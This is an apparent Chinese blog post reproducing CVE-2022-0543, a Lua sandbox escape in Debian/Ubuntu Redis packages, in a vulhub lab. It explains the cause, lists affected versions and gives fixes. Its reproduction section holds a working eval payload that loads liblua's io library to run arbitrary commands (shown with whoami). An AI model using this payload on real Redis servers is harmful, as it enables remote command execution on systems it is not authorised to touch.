

# Redis 沙盒逃逸(CVE-2022-0543)漏洞复现 - Mr-Ryan - 博客园

> 原文：[`www.cnblogs.com/mr-ryan/p/17381549.html`](https://www.cnblogs.com/mr-ryan/p/17381549.html)

# 0x01 概述

Redis 是著名的开源 Key-Value 数据库，其具备在沙箱中执行 Lua 脚本的能力。Debian 以及 Ubuntu 发行版的源在打包 Redis 时，在 Lua 沙箱中遗留了一个对象 package，攻击者可以利用这个对象提供的方法加载动态链接库 liblua 里的函数，进而逃逸沙箱执行任意命令。

# 0x02 影响版本

```
2.2 <= redis < 5.0.13
2.2 <= redis < 6.0.15
2.2 <= redis < 6.2.5 
```

# 0x03 漏洞原理

Redis 一直有一个攻击点,就是在用户连接 redis 后,可以通过 eval 命令执行 lua 脚本，但这个脚本跑在沙箱里,正常情况下无法执行命令,读取文件。
Ubuntu/Debian/CentOS 等这些发行版本会在原始软件的基础上打一些补丁包，例如 Debian 给 Redis 打的补丁，增加了一个 include。
Debian 以及 Ubuntu 发行版的源在打包 Redis 时，不慎在 Lua 沙箱中遗留了一个对象 package，攻击者可以利用这个对象提供的方法加载动态链接库 liblua 里的函数，进而逃逸沙箱执行任意命令。我们借助 Lua 沙箱中遗留的变量 package 的 loadlib 函数来加载动态链接库 /usr/lib/x86_64-linux-gnu/liblua5.1.so.0 里的导出函数 luaopen_io。在 Lua 中执行这个导出函数，即可获得 io 库，再使用其执行命令。

# 0x04 环境搭建

*   kali-linux 系统（安装了 vulhub）
*   Windows 7 主机（安装了 redis 客户端）

一、 在 vulhub 中拉取 CVE-2022-0543 镜像

```
docker-compose up -d 
```


```
docker ps 
```


二、安装 redis

1.  下载 redis 安装包

[`github.com/MSOpenTech/redis/releases`](https://github.com/MSOpenTech/redis/releases)

2.  解压后进入文件夹，运行 cmd，执行以下命令

```
redis-server.exe redis.windows.conf 
```



3.  安装 redis 到 windows 服务

```
redis-server --service-install redis.windows.conf 
```


4.  重新打开一个 cmd 窗口，执行以下命令

```
redis-server --service-start 
```


5.  测试 redis 是否能正常使用

```
redis-cli.exe -h 127.0.0.1 -p 6379 
```


安装完成。

# 0x05 漏洞复现

在攻击机中使用 redis 客户端对靶机进行连接

```
 redis-cli.exe -h 192.168.80.129(靶场 ip) -p 6379(端口) 
```


输入恶意 payload，这里的 whoami 就是要执行的命令，可以根据自己的需求更换其他命令。

```
 eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("whoami", "r"); local res = f:read("*a"); f:close(); return res' 0 
```

命令回显结果


# 0x06 修复建议

1、更新至最新版本
2、在 Lua 初始化的末尾添加 package=nil

参考链接：[`mp.weixin.qq.com/s/ZMIL-GGl1dUa2mnN2CHehQ`](https://mp.weixin.qq.com/s/ZMIL-GGl1dUa2mnN2CHehQ)